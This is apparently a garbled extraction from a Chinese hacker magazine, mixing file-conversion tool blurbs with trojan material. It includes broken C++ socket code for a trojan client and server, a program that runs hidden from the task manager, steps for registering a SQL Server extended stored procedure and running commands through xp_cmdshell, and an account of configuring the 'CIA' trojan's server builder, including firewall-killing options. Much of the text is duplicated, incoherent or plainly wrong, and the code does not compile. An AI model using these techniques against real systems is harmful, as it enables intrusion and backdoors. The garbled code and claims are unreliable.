

输入需要的数据库的名称，然后点击“下一步”按钮，对数据库的相关内容进行一些配置，然后再点击“下一步”，程序就会自动转换了。

在转换时，二进制和16进制的文件转换非常频繁，这个小工具正好为我们提供了两者之间相同的功能，务必备份！

# `ASPURL`

在转换FTP的练习中，经常需要用到SQL数据库的连接，在很多情况下，自己的机器没有SQL的比较，因此此工具具有非常有的作用了：可以将SQL字符串直接打开Access数据库，极大地方便了我们。

`ASPURL`是非常获取真实的地址工具，可以把类似www.abc.com/download?id=32这样的地址，转换成exe

# `BIN2TXT`

通过`BIN2TXT`把二进制的DEBUG的格式输出或转换成文本格式，`BIN2TXT`是一个图形化的界面，在“源文件”和“文件名”中设置不同的文件名和名称，再在“转换格式”中设置输出的格式，点击开始按钮即可开始转换

# `DB2TXT`

`DB2TXT`是一个从Oracle,Sybase,DB2

# PROGRAMMING ANALYSE

> 目标端 (socket) socket@hacker.com


我们利用这段代码就可以获取连接对方的最佳IP地址，首先确定一个主机要连接的`DEFAULT_DESTINATION`，这里只需要定义任何一个网络地址即可通过`GetBestInterface`获取目标IP的索引，这样就可以通过IP列表里面对应的IP地址就可以了。

图1 木工工作流程图

外网IP，又该如何获取？具体代码如下：

2. 获取外网IP。由于对方的客户端连接就会到了我们的电脑上，因此这里是最重要的一步——判断是否为木工，具体代码如下：

```cpp
#define DEFAULT_DESTINATION "192.168.1.100"
WORD GetBestInterface() {
// 获取连接对方的外网IP
PMIB_IPADDRTTABLE pAddrTable;
PMIB_IPADDROW ipRow;
ulong size = 0;
WORD result = INVALID_ADDRESS;
char *buffer = NULL;
// 获取目标IP端口的
result = GetBestInterface(saddr, DEFAULT_DESTINATION);
if (result != NO_ERROR) {
    // 失败，无法获取目标地址
    return INVALID_ADDRESS;
}
// 获取所有拥有的网卡信息
GetAddrTable(PMIB_IPADDRTTABLE, buffer, &size, 0);
buffer = (char*)malloc(size);
result = GetAddrTable(PMIB_IPADDRTTABLE, buffer, &size, 0);
if (result == NO_ERROR) {
    pAddrTable = (PMIB_IPADDRTTABLE*)buffer;
    for (int i = 0; i < pAddrTable->dwNum; i++) {
        ipRow = (PMIB_IPADDROW*)&pAddrTable->table[i];
        // 过滤本地地址，只返回公网地址
        if (ipRow->ipAddress.sin_addr.s_addr != 0x0A00007F) {
            result = ipRow->ipAddress.sin_addr.s_addr;
            break;
        }
    }
    return result;
}
free(buffer);
return INVALID_ADDRESS;
}
```

```cpp
#define MY_OWN_SIGN "..."
int Wsocket(SOCKET socket) {
SOCKET sock;
struct sockaddr_in client;
WORD dummy;
int count;
char flag[64];
while (MAX_USER) {
    char myFlag[64];
    threadinfo(NULL);
    if (strcmp(flag, myFlag) == 0) {
        accept(sock, (struct sockaddr *)&client, (socklen_t *)&count);
        if (sock == INVALID_ADDRESS) return 1;
        // 检查客户端是否为木工拥有的网卡属性
        while (count > 0) {
            recv(sock, flag, sizeof(flag), 0);
            if (strcmp(flag, MY_OWN_SIGN) == 0) {
                myFlag = "木工";
                break;
            }
            count--;
        }
    }
}
// 判断返回值参数是否为木工
if (strcmp(myFlag, MY_OWN_SIGN) == 0) {
    long local_addr = 127.0.0.1;
    SOCKET listen_sock = socket_Make_connection(AF_INET, SOCK_STREAM, 80);
    if (listen_sock == 0) {
        continue;
    }
}
// 恢复创建参数退出程序
return owner = 0;
}
```


www.hacker.com.cn (黑客防护) 2007 精装制作版 所有权利

# PROGRAMMING ANALYSIS

```cpp
NULL;
sockloop(my_sock, count, 0);
thread.recv(my_sock);
thread.send(my_sock);
CreateThread(NULL,0,doRetToHost,&int0,0,0,&hThread);
```

```cpp
int=info;
info.count=6;
info.go=AverageRandom(1000000,999999);
// 启动第二线程
sent(client, &info, sizeof(info)-3);
// 客户端与服务器协议
count=0;
while(count<256);
```

```cpp
// 等待创建完毕后向下执行
If(WaitSingleObject(owevent, INFINITE) == WAIT_FAILED) {
    continue;
}
CloseHandle(owevent);
```

```cpp
if(recv(client, buf,1)==SOCKET_ERROR) {
    closesocket(client);
    return FALSE;
}
count=0;
if(count==0 || buf[0]==0) {
    break;
}
buf=0;
count++;
```

```cpp
// 第一条线程就绪，再执行第二线程，避免锁
if(connect(client, &addr, sizeof(addr))!=0) {
    // 客户端失败，启动启动第二线程
    return;
}
handler[nUser]=CreateThread(NULL,0,ThreadWithClient,client,0,NULL);
if(WaitSingleObject(owevent,INFINITE)) {
    closesocket(client);
}
nUser++;
```

```cpp
typedef struct {
    int go;
    int count;
    int *info;
    int *info2;
};
// 第二条线程开始
BOOL sockthread(SOCKET client);
char buf[256], count=0;
int count2;
struct info *ninfo, *info2;
info=ninfo;
```

这是经过修改后的客户端数据，`if(memcmp(FLAG, sock,sizeof(sock))!=0)` 则判断线程是否就绪，这里只是用来判断线程是否完成，现在是向服务器发送请求了，在第一个线程完毕后再执行第二个线程，这样就避免了线程冲突，如果连接是可以成功的，那么就可以使用自己的数据了。

```cpp

if(send(client, &info, sizeof(info)-3,0)==0)

    return;

info.go=0;

recv(client, &info, sizeof(info)-3);

if(info.go!=0)

    // 再次连接

    if(info.info==MY_OWN_KEY)

    return;

    info.info=0;
```

`MY_OWN_KEY` 是定义的标识，客户端和服务器线程就不会出错。如果设置一个小的标识，是不够的，服务器必须定义自己的数据了。简单的，作为数据单元发送，在服务器上，`send(client, &info, sizeof(info)-3)`是为了发送数据，`recv`返回1表示收到了或者成功了。这里在代码里写得很清楚，第一条是发送客户端的线程，第二个线程是一个整体，服务器的响应，应该有数据！对于客户端请求的标识和服务器返回的标识是不一样的，如果某一个线程失败了，执行第二个线程，这是对第二个线程的操作，然后再处理它，用结构拷贝到内存，最后把拷贝到内存就成功了。连接后，接下来就是继续操作或者发送数据了，这里还是我的木马线程，网络上的这篇文章太大了，我自己看一下即可。结构和代码我自己写的，就是服务器和客户端的代理代码了，它的来源就是

```cpp
#define OWN_KEY 346 // 定义
```


# PROGRAMMING ANALYSIS

> 目标域名 socket@hacker.com.cn 《网络黑客进阶》


```cpp
DWORD WINAP readwrite(SOCKET tc, SOCKET tc)
char buff[4096], bufr[4096];
char recvbuf[4096];
long recv, recvc;
FD_SET(fd, &fd_set);
int ret, recvc;
SOCKET client_r; client_r=tc;
// 设置主线程接收控制单元
setenv("owner", 0);
recvc=0;
struct timeval Timeout;
Timeout.tv_sec=1;
Timeout.tv_usec=1000;
FD_ZERO(&fd_set);
FD_ZERO(&ding);
FD_SET(client, &fd_set);
FD_SET(client_r, &fd_set);
while (FD_ISSET(client, &fd_set) && !FD_ISSET(client_r, &fd_set)) {
// 默认值
ding=0;
 // 超时或错误
ret=select(0, NULL, NULL, NULL, &Timeout);
if (ret == SOCKET_ERROR) {
FD_CLR(client, &fd_set);
FD_CLR(client_r, &fd_set);
if (FD_ISSET(client, &fd_set)) {
recvc=recv(client, buff, sizeof(buff));
if ((ret == SOCKET_ERROR || recvc == 0 || ret == WSAECONNRESET)) {
FD_ZERO(&fding);
 // 此时可能只有一个连接
} else {
recvc=recvc;
buffer=buff;
recvbuf=buffer;
}}
if (FD_ISSET(client_r, &fd_set)) {
recvc=recv(client_r, buff, sizeof(buff));
if ((ret == SOCKET_ERROR || recvc == 0 || ret == WSAECONNRESET)) {
FD_ZERO(&fding);
 // 此时可能只有一个连接
} else {
recvc=recvc;
buffer=buff;
recvbuf=buffer;
}}
}
}
printf("%s", recvbuf);
```

```cpp
ret=recv(client, recvbuf, recvbuf, 0);
if(ret<0) {
    recvbuf+ptr+=recvc;
    recvc=-ret;
} else {
    err=WSAGLastError();
    if(err==WSAETIMEDOUT) {
        FD_ZERO(&fding);
    }
}
```

```cpp
if(recvc) {
ret=recv(client, recvbuf, recvbuf, 0);
if(ret<0) {
    recvbuf+ptr+=recvc;
    recvc=-ret;
} else {
    err=WSAGLastError();
    if(err==WSAETIMEDOUT) {
        FD_ZERO(&fding);
    }
}
sleep(1);
if(recvc) goto print;
closeocket(client);
closeocket(client);
return 0;
}
recvc=0;
```

这个客户端还需要要求的函数，其实和底面的三个我就单独拿好了，只介绍了一个比较基础的函数，其他的可以自己分析和实现，比如传入任意参数来指定的端口号等。编写书花了不少了不少，并不是很难，所以大部分时间花在实现上了，现在这个大模型已经做出了，以后打算什么，再发现一些特色的木马！


(网络防护)2007 萌黑客进阶 适合读者：爱好者、黑客、编码者

前置知识：无

# 文件格式想变就变 灵活转换工具

XXXXXX非常强大的工具（这里的“TO”到“OM”转换，包括等是一个文件转换工具，用来把各种格式（或文件）转换成另一种格式，或者保持原有格式，这种方式非常方便。在转换的过程中，转换格式是一个学习的过程，我们专门针对这些流行的转换工具提供更详细的介绍。

`html?id=www.abc.com/download.php?id=32`这样的地址转换成`www.abc.com/32.exe`的真实地址。


使用`ASPURL`在“地址”栏输入URL，然后点击按钮，页面上就会出现下载的真实地址，右键保存即可。非常方便，如图所示。

## `Acc2SQL`

`Acc2SQL`是一个数据库转换工具，它可以访问Access数据库并转换为SQL数据库文件，与相同格式的`SQL2ACC`相反相反转换工具，只要我们在Windows下运行即可。


首先运行`Acc2SQL`，选择源文件后点击开始转换，如图3所示。其是一个HTTP服务器，并将URL指定的文件从网站抓出来。你只需要知道真实地址即可。


## `BINHEX`和`HEX2`

使用`BINHEX`可以把二进制的字符串转换为十六进制的形式，而`HEX2BIN`正好可以实现反操作。

打开后看到提示：首先输入你的数据库名，再输入HEX的字符串，最后开始转换，如图4所示。

| Source | Destination |
| --- | --- |
| select databases | |


输入需要的数据库的名称，然后点击“下一步”按钮，对数据库的相关内容进行一些配置，然后再点击“下一步”，程序就会自动转换了。在转换时，二进制和16进制的文件转换非常频繁，这个小工具正好为我们提供了两者之间相同的功能，务必备份！

## `ASPURL`

在转换FTP的练习中，经常需要用到SQL数据库的连接，在很多情况下，自己的机器没有SQL的比较，因此此工具具有非常有的作用了：可以将SQL字符串直接打开Access数据库，极大地方便了我们。

`ASPURL`是非常获取真实的地址工具，可以把类似`www.abc.com/download?id=32`这样的地址，转换成exe

## `BIN2TXT`

通过`BIN2TXT`把二进制的DEBUG的格式输出或转换成文本格式，`BIN2TXT`是一个图形化的界面，在“源文件”和“文件名”中设置不同的文件名和名称，再在“转换格式”中设置输出的格式，点击开始按钮即可开始转换

## `DB2TXT`

`DB2TXT`是一个从Oracle,Sybase,DB2

# HACKER TOOLS ATTACK DEFENSE

其，你完全可以将其作为一个脚本病毒的生成工具。时，用户在分割中对于需要转换的文件选择转换后的VBS格式的文件，选择文件后点击按钮进行转换，如果这样的话。

此外，`PDF2DOC`可以将PDF转换成Word程序支持的格式。

## `Perl2EXE`

普通的`Perl2EXE`工具使用的是“`perl2exe script`”和“`perl2exe script.pl -gui`”，通过命令行方法执行后就会在你目录下生成一个EXE的文件，这说明你顺利完成了转换。那么，`script.exe`是什么呢？就是程序转换了，你用`webdev`出来的，以及最近的几个程序全都是Perl的。

使用这个工具，可以将其转换成EXE文件！的方便非常方便！


## `PY2EXE`

`PY2EXE`是一个Python转换工具，可以用Python将脚本转换成EXE的方法，不需要安装Python可以转换，`PY2EXE`还可以用来创建工具`Tkinter`, `Pwinter`, `Pygame`, `win32client`和各种服务器程序。

当你遇到SA拦截的主题，有注入代码，你想的是什么呢？一个可以实现你功能的EXE！这就是VBS！

## `HTML2TXT`

从网络开始，`HTML2TXT`是将HTML文件转换为TXT格式的方法，用户在“HTML路径”和“TXT路径”中设置文件的路径，然后点击按钮开始转换格式，如图10所示。


## `PDF2HTML`

`PDF2HTML`可以使用Acrobat的PDF转换为HTML格式的方法，运行需要转换的PDF开始转换。如图11所示。

## `REG2INF`

这是一个Console编译器，可以按照注册文件的内容，支持在安装期间的内容修改，例如，输入注册的用户名，只能新增的，或者旧的不能修改，如果系统中已经存在则帮助你为某一个或多个设置的某个组件，在重新设置时，我希望得到结果，这样原本的资源被覆盖，而我们是不希望会引起任何插件的作用失效，这时`REG2INF`好用了，`REG2INF`文件转换为INF的命令是：`reg2inf.exe -a w name.inf`

## `TXT2EXE`

`TXT2EXE`使用的方法：

`<TXT源文件> <EXE目标文件> [/EXE]`

参数说明：

`/C` 生成一个可执行的文件。

`/B` 在原有文件中保留原本的内容，使用默认的信息，可以使用。

`/S` 生成一个可以包含我自定义文本的运行的可执行文件。

## `BAT2COM`, `BAT2EXE` and `ASM2CODE`

通过`BAT2COM`和`BAT2EXE`，用户可以用BAT转换成COM和EXE格式的文件，通过`COM2EXE`可以将COM格式转换为EXE格式的。

## `ASM2Shell`

这个工具是图形化的`ASM2SHELL`非常简单，类似于输入的汇编代码，然后直接去拼接


`Out0of_Shellcode`,是编写程序的好帮手。

程序是ASP.NET的小程序，而且还能转换VBScript代码为ASP.NET的程序，并提供了`Code-behind`功能，它是移动到ASP.NET的好帮手。

## `Doc2Pdf`

`Doc2Pdf`是一个批办公软件转换插件，可以一次性将大量的文档转换为格式（如doc、txt、rtf和word）为pdf，支持命令行参数，使得转换可以自动进行，并且可以将接下来所有的文件一次性转换。

## `ASPDLL`

通过`ASPDLL`可以使用Server将客户端的JavaScript和Script转换为Visual Basic 5.0、6.0的代码，转换为Active Visual Basic、DLL，来实现最终的执行效率和安全性。

## `ASP2ASPX`

`ASP2ASPX`是一个能够帮助快速升级你的ASP应用

同样的软件转换工具还有，在不断开发的过程中，希望这些工具为各位读者的维护提供便利，方便你们。

U富客自从发布以来就收到很多读者的反馈。大家通过邮件Mail，针对相关的技术、提出建议，本文将对许多方面的问题进行解答。对于之前的问题，希望能带来一些有趣的回复，或者我们将挑选出的某些软件，给大家带来

请读者阅读，感谢诸好者们

请据知：

文/图 SDRing


U加密软件的初衷很简单，只是用来防范那些U盘放在家里重要工作的习惯。自从黑客圈里的活跃服务器上才把它出去，就用加密软件尝试加密自己的私信息。根据很多考虑了加密策略，对于我们来说，许多软件已经改变了命运的终结（或者是拯救者）。这并不是问题了，但是现在，使用这类软件是有有效的，开始投入和收获，你觉得呢？接下来我们将探讨：



### 第一代：概念型加密

第一代的加密可以比较简单，但是“U加密”只是VBS编写的小型的程序，它不需要处理数据，可以加密U盘里的所有文件，没有目录和文件名限制，但是比较麻烦。不需要额外安装在电脑上，这样的加密也简单，它在资源管理器中就能运行，但是却出现了一个加密：这也是最贵的（有相同风险），用VBS可能会导致崩溃（具有黑客风险）。“闪加密”与“U大师”是第一代的进阶版，图1、图2所示。

“闪加密”的特点是插件插入时不需要过程，“U大师”虽然可以在命令行中运行，只需要运行如显示的图2，并且在运行过程中生成之前加密的文件。这种方式有缺点：提供了另一种加密方法为`UPDO.exe`，这种模式在Shell下有用，需要用户特别在服务器端运行。

### 第二代：基础加密

第三代的产品已经在使用，不再由于它仍然，很多“闪加密”在中招可能会引起系统崩溃，而且服务缺失，或许可以彻底且流畅

### 第三代：商业加密

# HACKER TOOLS ATTACK & DEFENSE

它的Windows Internet停止运行将`netsrv.exe`文件它失效了（当然可以用病毒软件更新它）。U盘重启后进程会正常运行。通过多种技术手段将其隐藏的服务，插件插入后即使不使用任何操作系统，它还会一直运行下去。这一个应用程序挂钩，将程序用加密的数据这种方式几乎不会引起编写者的注意。因为它的工作方式是隐藏了，它完全包含这种第三种加密插件我还没有找到。除了在以上方面，还有一些特殊的加密类型，你可以将U盘移动到特殊U盘移动后，将这些存档保存到磁盘中...重启后，你可以将这些加密后的拆分文件通过网络分发，这种方法是最好的技术将插件插入后即使不使用任何操作系统它还会一直运行下去。遇到该者，QQ直接删除

## 防护方法

看了这些你就不会说你的U盘是完全安全的了。如果没有，你还担心你的U盘“黑客”或者“大盗”，那么你就不知道会有什么样的“者”或者现在，知道尽量防止病毒，这样你就有一个安全之，还有更好的使用习惯，比如：

- 不要把U盘到处带，特别是当你不需要时，不要在U盘里运行。

- 使用加密（如加密、密码等）或使用软件防护要求，这样做是安全的。

- 扫描病毒。U盘是不时扫描，病毒后可能在某些文件中，这是我的经验。

- 备份文件，时候不要在旁，要备份，切记的。

- 使用U盘之前扫描病毒，用彻底的。有丰富的安全经验和好的使用习惯，相信你的U盘安全的也不用愁了。Happy new year!


## 整整

Visual / Code (Fantom整整) “Fantom”是意意的。为什么叫这个名字呢，请看下面的简介。这个程序已经根据目前我所用的软件全部测试，是因为自己开发的，然后由我来教你如何使用。它的一个使用方法是：我把程序在RAR压缩包里打包，并名为：Fantom整整第3号！如果解压后，运行，你会看到一个



图1

双击运行程序，首先看到的是一个程序的界面，就像QQ的工具一样吧！但是它只有这样的界面，并且又可以解锁功能，在现在的行动是新QQ加密器，加密器的程序如图所示。然后你们知道之后我把整个程序加密


图2

这就是我的QQ加密器。这个程序是本来用来防止QQ账号被盗的，真的我是为了安全，所以想加密的时候，同时，在这里也希望大家都是正直的黑客：我们将共同努力！这个程序的界面左上是不可移动的。一旦输入加密并选择“慢速度”或“快速速度”选项，它不是为了方便，用来提醒你的，只不过是不怕加密（暴力破解），程序执行成功了，下方的显示很快，一下就完了，因为机器CPU很快。


图3

1. 先在界面上全盘扫描。
2. 任务注册。
3. 此程序自动运行。`www.hacker.com`

## Firefox：IPOT

适合Firefox用户，爱好者优化Firefox基本使用方法



相信黑客的朋友都用过TouchNet吧？一个好用的浏览器。我年轻的时候用它看过很多，但是现在，老了，新的时代融入了Firefox，一个发行版就像被剥夺了武器，毫无灵魂。安装了`Code Editor`，重置Firefox就能在工具项中找到“`Code Editor`”了，修改的方法简单就是这里，如图所示

| Site | Cookie Name |
| --- | --- |
| google.com | SID |
| key3.com | keyid |
| www.baidu.com | tc_total_guest_id |
| www.baidu.com | tc_total_bi |



下载地址：`www2`

## `My IP Tool`


安装了三个后，Firefox就出了一个IP，点开它就可以看到我的IP上面的公网地址，下面的地图，点击IP可以看到详情，如图所示！

下载地址：`https://addons.mozilla.org/zh-CN/firefox/addon/add-edit-editor/ozx/2.0.4-fxauto`

## 聚焦：`Code Editor`

你尝试修改过`Code Editor`的设置了吗？用VS设置，修改后又发现回去了，修改某个地方，哪里才能看到它被管理了Firefox设置，这样修改可能不会生效。

- 4. 改变背景颜色为600像素。

- 5. 打印字体的这个字体是盗刻的QQ的背景是黑色的。

- 6. 最后的办法就是让字体安装后自动运行，为什么某个人安装后就叫它字体，有些不是手动安装后它叫字体，有些人才就知道QQ的人吗？


# 后记：

此程序支持Windows平台，经过测试软件全部免费，免运行，当前文件包含你所需要的exe程序全部解锁，包括它已经永久运行的，希望大家喜欢，一起交流，共同进步，感谢大家的支持！

`www.hacker.com`

# HACKER TOOLS ATTACK & DEFENSE

`mdshout-0.3.exe`

> Information about the selected tool:

| Property | Value |
| --- | --- |
| Name | `mdshout` |
| Type | Application |
| Version | 0.3.0 |
| Date | 2023-01-01 |

- 7. 为了不让这个大的粉丝成了坏儿子，所以不加注册选项，也没有添加到系统和插件里，这还告诉我！可以看到小Code了，你运行了就很难找到它的任务管理器里`<运行程序>`中程序是隐藏运行的，看不到。这个软件一运行，除了在任务管理器里进程，就无法找到。看到了呢？关于Cookie的名字、属性与值，有的几个Cookie，一个是`AP(ESSION)`开头的设置，没有应用价值，我们打算打开下一个，如图所示。

修改（内容）为了“自己”修改的你的MS Cookie，记得按保存，页面会自动刷新后就应用Code Editor了，方便吧！重启浏览器就能看到！不是个人不可以隐藏的；哈哈！我们是一个名字的人吗？其实你发现，要是没关闭窗口了，你就会按下`F5`刷新字体了！任务上把右侧的窗口关闭就可以了。程序标题上的最小化和关闭按钮是无效焦点。点击这里的`ESC+F4`以后可以让程序运行任务，千万不要按`ALT+F4`就可以修改程序了。

通常需要生成 MD5，生成器怎么用`MD5 Tool`？这个工具的功能是加密文件或者文本MD5值。只要在`Hash`中运行各种算法，原文处按击`MD5`就出来了，难道还能入侵工具吗？如图6所示：


图3

## 三：Web Developer

下载地址：`http://www.mozilla.org/firefox/extensions/web-developer/`

为网页设计的工具，功能强大。由于文中详细介绍了，`Web Developer`可以轻松替换网页元素，更改来源、Cookies或者清除缓存、历史记录，它也有很大的本地数据库。通过这个扩展，用来对标题进行限制，长度限制45个字符，如图5所示：


图5

## 四：MD SQL Injection

下载地址：`http://downloads.map.org/mdshout/`

正如对于入侵者所说的，从未见过`WebShell`或者肉壳，用视角来看，大家可能同一个时刻遇到过`WebShell`漏洞。现在是实战研究了，本文将教你如何通过SQL注入来实现非常困难，如果你的权限能够执行命令（`WebShell`）那么就不难了。


## 五：网络后的法则

使用了上面的工具后，大家一定觉得有用吧？还有更多关于网络，外面有很多Mozilla教程，大家去那里逛逛、学习，会有收获！这个就是我们想要的资源，里面有很多需要的，在这里可以轻松找到漏洞，如果需要的话，`http://extension.moz.dev/addons.mozilla.org/extensions/` 好了，文章写到这里了，如果有任何问题，欢迎在黑客论坛。


图6

当SQL出现时，SQL Server之后，我们不要再为了SQL自己了，使用数据库的本质是为了速度和效率，所以数据库系统被使用的存储机制来实现高效率。SQL Server有许多存储过程，这里我要的是存储过程，因为我们可能利用它们，看看如何对存储过程进行


图7

在SQL Server2000环境下的动态连接是为了扩展性，但是如果需要`xp_cmdhell`，这种动态连接在SQL Server环境之外，是可以被加到SQL系统中，并使用存储过程的方式。典型的存储过程就是SQL Server自带的`xp_cmdshell`，这个存储过程需要管理员权限才能执行，一旦成功是以MSSQL的执行权限运行，而MSSQL是以服务运行的System权限，创建管理员权限的用户太大了！为了安全起见，管理员一般都删除了`cmd.exe`文件，而是用更名替换了`Xpldll`之后，我们通过DLL注入的方法来扩展存储过程，因为存储过程是持久化的。在扩展过程创建之后，会生成一个存储过程，稍后就会执行，这样方便了，我把主要步骤稍微增加几个：

- 增加一个`ShellExecute()`函数来执行命令；`ShellExecute()`用一个比较通用的函数执行，它可以自动加载相关的程序并运行，它的参数如下：

```
HINSTANCE hInst;
HND hWnd;
LPCSTR lpFileName;
LPCSTR lpParameters;
LPCSTR lpDirectory;
int nShow;
```

第一个参数是执行名，这里不需要；第二个参数是目标文件，第三参数是命令行的参数，这里是`cmd.exe`，第四参数是命令行的参数，第五参数是工作目录，这里留空；最后一个参数是运行后显示窗口的方式。此方法在扩展存储过程的使用方法是使用`"open", "cmd.exe", "sparam", NULL, SHOW, SHOW`，其中`sparam`就是存储过程得到的参数，真实的实现需要代码编码，存储过程的存储是二进制的。`ShellExecute()`函数任何地方都是看不到，除非扩展权限拿到了，否则拿不到。当然你可以自己写一个带有回调的存储过程。OK，准备扩展存储过程名为`xp_xlake.dll`的文件后，把它注册到SQL Server：

```
USE master
EXEC xp_addextendedproc 'xp_xlake','xplake.dll';
```

那么就是通过扩展存储过程来连接SQL Server的所有用户都需要`sysadmin`权限，并且使用绝对路径，把扩展的dll文件放在SQL Server的`bin`目录下。我们现在可以尝试了，调用的参数就是`xp_cmdshell`，看来是没有问题的：

```
USE master
EXEC xp_cmdshell 'lake2 -net user>c:\lake2.txt';
```

# HACKER ATTACKS&DEFENSE

扫描：这次是一起超级庞大的木马，功能之强大已经到了让人防备的程度，也完全无害，不过CIA这么说。作者认为可能让你害怕的月份和文字这个木马被封装得很仔细，即使你觉得安全水平不高，本书本身也能轻松操作。毫不而言。

- 适合：网络爱好者，木马爱好者
- 前置条件：使用木马环境


## 完美无隐蔽的木马

文/天磊

CIA这个间谍机构一个非常无耻的，最常见的见过就是中国的中央情报局，这个全世界的情报机构可能无人所知，无从知情。我们认为CIA要作为间谍的可不是这个情报机构的弱点，而是一种功能极其强大的特洛伊木马。它的名字叫CIA，它是这样的：目前为止所有的功能的版本中功能最全的，这木马的功能到底怎么样，我们自己来试试吧。

### 配置服务器


我们先从网上下载它（`http://www.hacker.com`）下载服务器版本的木马，在解压后的文件夹中你可以看到客户端程序`Cruel-Intention.exe`，这个程序可以直接在界面上看到CIA木马是如何使用的，如图所示。


图1

我们在这里来配置木马的程序，点击“`Client Options`”选项并点击按钮“`Build Server`”命令，就可以弹出木马服务器的配置窗体“`In Server`”。在之后你就可以对CIA木马的程序每一个选项进行个性化的设置了，如图所示。

从配置中选择你需要的，CIA木马的设置范围非常复杂，点击“`Main Settings`”、“`Install Events`”、“`Firewall Killing`”、“`Notifs`”、“`Socks/Docks`”等一个选项，下载完后可以对12个选项中的项目进行测试，大重启后点第一个点“`Main Settings`”选项，点击这个命令，是配置服务器的基本功能，包括配置服务器运行后


图2

